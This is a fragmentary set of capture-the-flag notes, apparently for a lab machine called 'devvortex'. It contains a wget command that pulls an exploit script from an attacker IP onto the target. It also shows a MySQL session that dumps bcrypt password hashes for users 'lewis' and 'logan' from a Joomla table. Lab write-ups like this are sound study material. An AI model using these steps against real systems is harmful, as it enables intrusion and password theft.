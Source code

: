 ![file:///tmp/.GM11K2/3.png](file:///tmp/.GM11K2/3.png)

![file:///tmp/.GM11K2/4.png](file:///tmp/.GM11K2/4.png)

so bypassed ..


wget http://10.10.14.93:80/ex.py



# Got mysql access

```bash
www-data@devvortex:/$ mysql -u lewis -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8712
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)


```

found a table of user users

![[Pasted image 20240320160953.png]]
